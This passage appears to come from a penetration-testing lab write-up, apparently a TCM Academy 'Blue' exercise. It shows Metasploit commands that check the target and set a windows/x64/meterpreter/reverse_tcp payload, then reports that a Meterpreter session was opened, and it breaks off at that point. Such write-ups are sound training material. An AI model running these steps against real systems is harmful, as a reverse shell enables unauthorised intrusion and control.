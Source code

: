 
```bash
options
```

<img src="/assets/images/tcm-academy/blue-12.png">

To further confirm the target's vulnerability, I executed:


```bash
check
```

<img src="/assets/images/tcm-academy/blue-13.png">


I then set the payload for a 64-bit reverse TCP Meterpreter shell:



```bash
set payload windows/x64/meterpreter/reverse_tcp
run
```

<img src="/assets/images/tcm-academy/blue-14.png">

Upon successful exploitation, I established a Meterpreter session on the target machine:

